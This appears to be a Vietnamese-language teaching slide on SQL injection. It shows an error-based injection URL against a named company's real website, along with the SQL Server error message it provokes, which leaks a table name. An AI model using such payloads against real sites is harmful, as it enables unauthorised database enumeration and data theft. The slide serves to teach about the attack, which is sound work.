

# SQL Injection
Ví dụ một truy vấn SQL Injection
http://www.vinamilk.com.vn/?vnm=help&id=32 and 1=convert(int, (select top 1 table_name from information_schema.tables)) --comment
Microsoft OLE DB Provider for ODBC Drivers error '80040e07'
[Microsoft][ODBC SQL Server Driver][SQL Server]Conversion failed when converting the nvarchar value 'ConsultantArticle' to data type int.
/help.asp, line 26

26